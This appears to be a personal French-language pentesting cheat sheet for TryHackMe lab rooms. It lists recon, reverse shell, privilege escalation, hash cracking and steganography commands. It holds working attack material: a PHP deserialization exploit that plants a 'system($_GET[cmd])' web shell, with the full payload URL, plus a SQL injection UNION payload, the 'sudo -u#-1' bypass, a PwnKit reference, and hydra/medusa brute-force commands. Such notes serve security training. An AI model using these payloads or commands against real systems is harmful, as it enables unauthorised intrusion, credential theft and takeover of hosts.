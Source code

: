 # TryHackMe



https://github.com/veikoon/pentest/blob/master/commandes.md

Utilitaire :

​	wordlists: ls /usr/share/wordlists/dirb/
​	tmux : <ctrl+a> </> <*>  créer des nouvelles fenêtres

## Premier etape

**Endpoint : ** 

```
gobuster dir -k -x txt,json,php,html -u http://$IP -w /opt/wordlists/common.txt
gobuster fuzz --exclude-length XXXX -b 404 -k -u http://$IP/fuzz -w /opt/wordlist/common.txt
```

***Rechercher recursivement si tu trouve rien***



**Port : **

```
nmap -sC -sV -A -oN nmap.log $IP
```

**vulnerability :** 

```
nikto -h $IP
```

Si rien ne marche ajouter l'option -Pn au début de  nmap



## Quand cest la galère

regarde les ports scanné

scan recursivement les folder

avec big.txt

regarder crontab


## Reverse Shell

[Github des différentes reverse Shell command](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)


Stabiliser bash :

```
python -c 'import pty; pty.spawn("/bin/bash")'

ctr+z

stty raw -echo; fg

ENTER
```



*Si accés a l'uppload de fichier penssé a upload un fichier reverse php ?*

**Ne pas oublier d'écouter le port**

```
nc -lvp 4242
```



## Escalation Priviledge

​	[Liste des exploit avec permission](https://gtfobins.github.io/)

```bash
Find all SUID files: "fichier executable avec une autre perm que ton user"
find / -perm -4000 -print 2>>/dev/null
Find all SGID files:
find / -perm -2000 -print 2>>/dev/null
```



```
all sudo avaible
sudo -l

(ALL, !root) => sudo -u#-1 
```



Heberger un serveur pour passer des fichier

```
python2 -m SimpleHTTPServer
```



**PWnk!it    Exploit CVE-2021-4034**  [Github  source](https://github.com/ly4k/PwnKit)
**LinPeass analyse des faille dun système** [Github Source](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)



## Hash

```
haiti -e 42f749ade7f9e195bf475f37a44cafcb
```

https://crackstation.net/

```
hashcat -m XXX(look man) -a 0 HASH.hash /opt/wordlists/rockyou.txt
```

JohnTheReapper

```
john passHash --wordlist=/opt/wordlists/rockyou.txt 
```



## Reverse Engenering

gdv ./Programme
disas main
break point
`i r` (info registry)
x/s $XXXX



gdb
jump j *@ (modifié)
breakpoint b *@

## Sql injection

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

```sql
group_concat()
```

get the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas. (modifié)

```sql
information_schema
```

contains information about all the databases and tables the user has access to


## osint 

```bash
exiftool WindowsXP.jpg  
```

## Steganographie

```
mogrify -format jpg important.png
java -jar stegsolve.jar 

stegsolve
steghide extract –sf image.jpeg
stegseek hellp.jpg /opt/wordlist/common.tx
```



## Windows SMB

https://tryhackme.com/room/metasploitintro

smbclient -L $IP 
smbclien -NL $IP

nmblookup -A $IP 



msfconsole
Search   *smb/netbios*
use *auxiliary/scanner/netbios/nbname*

## FTP

medusa -h $IP -U user.txt -P ./password.txt  -M ftp
**hydra -L username.txt -P password.txt ftp://$IP**

Mfsconsole :http://10.10.95.58/Lianyu.png

```bash
auxiliary(scanner/ftp/ftp_login)

PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt   
```

Montrer fichier caché sur ftp :

**dir -la**

*

## Unserialize PHP

Si il y a une fct 

**unserialize($variable)** dans le code cherche comment ecrire dans debug une version serialisé dun payload de reverse shell en php

tu serialize

```php
<?php
class FormSubmit
{
   public $form_file = 'test.php';
   public $message = '<?php system($_GET["cmd"]); ?>';
}
print serialize(new FormSubmit);
?>
```

tu execute `php code.php`

tu navigue vers 

http://10.10.33.139/index.php?debug=O:10:%22FormSubmit%22:2:s:9:%22form_file%22;s:8:%22test.php%22;s:7:%22message%22;s:30:%22%3C?php%20system($_GET[%22cmd%22]);%20?%3E%22;}

Puis vers la page que tu as créé

http://10.10.33.139/test.php?cmd=INSSERT_TA_COMMANDE



## Crack SSH key

RSA  

```bash
ssh2john privatekey>key.haash
john --wordlist=/opt/wordlists/rockyou.txt key.hash
john --show key.haas

chmod +600 id_rsa
ssh user@$IP -i id_rsa
```

## BRUTE Force

```BASH
hydra -l molly -P rockyou.txt 10.10.219.212 http-post-form "/admin/index.php:username=^USER^&password=^PASS^:F=Your password is incorrect" -V
```

**CRUNCH** 

Generate a dictionary file containing words with a minimum and maximum length of 6 (`6 6`) using the given characters (`0123456789abcdef`), saving the output to a file (`-0 6chars.txt`):

```
crunch 6 6 0123456789abcdef -o 6chars.txt
Crunch will now generate the following amount of data: 117440512 bytes
```

